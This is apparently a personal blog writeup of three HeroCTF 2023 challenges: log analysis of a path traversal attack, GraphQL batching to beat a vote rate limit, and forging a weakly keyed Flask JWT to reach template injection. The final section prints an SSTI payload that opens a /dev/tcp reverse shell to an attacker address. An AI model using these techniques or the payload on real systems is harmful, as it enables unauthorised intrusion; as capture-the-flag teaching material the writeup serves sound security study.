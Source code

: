 ```yaml
---
title: "HeroCTF"
date: 2023-05-12
categories: [CTF, Writeup]
tags: [Web, Forensics]
description: These are the writeups for the n00bzCTF 2023. I participated ended up at
             place 685/1085.
pin: false
math: false
mermaid: true
#image:
#  path: /assets/img/posts/htb-machine-name/banner.png
#  alt: "HTB Machine Banner"
#  width: 800
#  height: 400
---
```


> **HeroCTF 2023 - Writeup**  
> Place: 685/1085

---


## Forensics
### dev.corp 1/4
>The famous company dev.corp was hack last week..
>They don't understand because they have followed the security standards 
>to avoid this kind of situation.
>You are mandated to help them understand the attack.
>For this first step, you're given the logs of the webserver of the 
>company.

>Could you find: 
>- The CVE used by the attacker ?
>- What is the absolute path of the most sensitive file recovered by the 
>attacker ?


For this challenge we are given a access.log file. This are the logs of 
a webserver. Our goal is to find 
which CVE the attacker used and whats the most sesitive file he 
recovered.
I tried to find some useful information in the file, like the /etc/
passwd file. We can see, that a path traverlsal has been exploitet. 

![corp 1](/assets/img/HeroCTF/de.corp_1.png)


A Quick research of "dublicator_download", I found the corresponding 
CVE: `CVE-2020-11738`
After some more research on the access.log file, I found that the 
attacker wanted the id_rsa_backup file.
So we get the Flag:

FLAG: `Hero{CVE-2020-11738:/home/webuser/.ssh/id_rsa_backup}`

---

## Web
### Best Schools
>An anonymous company has decided to publish a ranking of the best 
>schools,and it is based on the number of clicks on a button! Make sure 
>you get the 'Flag CyberSecurity School' in first place and you'll get 
>your reward!


We are give with a website were we can vote for different kinds of 
schools. Because of the description we know that we need to get the 
'Flag CyberSecurity School' in th first place to get 
the Flag. But if we try to increase the votes we can only send one 
request per minute. So it would take a while to get the flag like this.

![school 1](/assets/img/HeroCTF/best_school_1.png)
![school 2](/assets/img/HeroCTF/best_school_2.png)

The request in brup shows that the application is based on graphql. We 
can send multiple requests in graphql, so we need to modify the HTTP 
request:

![school 3](/assets/img/HeroCTF/best_school_3.png)
                                        
No we just need to send enough votes to get the Cyber Flag School in 
first place and we get the flag.


FLAG: `Hero{gr4phql_b4tch1ng_t0_byp4ss_r4t3_l1m1t_!!}`

---

### Drink_from_my_Flask
>A friend of yours got into an argument with a flask developer. He tried 
>handling it himself, but he somehow 
>got his nose broken in the process... Can you put your hacker skills to 
>good use and help him out?
>You should probably be able to access the server hosting your target's 
>ast project, shouldn't you ?
>I heard is making a lost of programming mistakes...

The landing page is showing an Invalid operatin error.

![flask 1](/assets/img/HeroCTF/flask_1.png)


Executing the example from the landing page ends up with the result: 3. 
I wantet to know if there is maybe a login page, but if we try to access 
the /login page, there is anohter error.

![flask 3](/assets/img/HeroCTF/flask_3.png)


A look at the /adminPage is showing a message that we can't access this 
page, beacause we are a 'guest'.

The Site uses an JWT token. Decode that cookie we see the following:

![flask 4](/assets/img/HeroCTF/flask_4.png)


The role 'guest' is embedded in the token.
It's also using HS256 algorithm, which is symmetric. So we could try to 
bruteforce the key.

![flask 5](/assets/img/HeroCTF/flask_5.png)

The key is week enough and is "key". Now we can change the token to get 
the role admin assigned.

![flask 6](/assets/img/HeroCTF/flask_6.png)

We are now the admin user, but we can't do anything... But it seems that 
the role is reflected on the admin page, so let's try another payload.
Modify the JWT token to the role `{{7*7}}` and see if the code is 
executed.
                    
![flask 7](/assets/img/HeroCTF/flask_7.png)                

It works! So let's try to get a reverse shell on the server with the 
following payload embedded in the JWT token: 

{% raw %}
```text
{{cycler.__init__.globals__.os.popen('bash -c \"basb -i >& /dev/tcp/your_ip/999 0>&1\"').read()}}`
````
{% endraw %}

and we should be able to get the falg.

FLAG: `Hero{sst1_fl4v0ur3d_c00k1e}`